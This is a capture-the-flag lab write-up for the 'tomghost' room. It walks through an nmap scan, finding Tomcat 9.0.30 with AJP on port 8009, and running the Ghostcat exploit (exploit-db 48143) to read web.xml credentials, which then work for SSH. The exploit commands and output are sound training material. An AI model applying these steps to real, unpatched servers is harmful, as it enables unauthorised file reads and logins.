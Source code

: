 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap 
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](../../.gitbook/assets/image.png)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](../../.gitbook/assets/image%20%285%29.png)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](../../.gitbook/assets/image%20%286%29.png)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](../../.gitbook/assets/image%20%282%29.png)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:password <!----I took out the password----->
  </description>

</web-app>

```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:

![](../../.gitbook/assets/image%20%281%29.png)

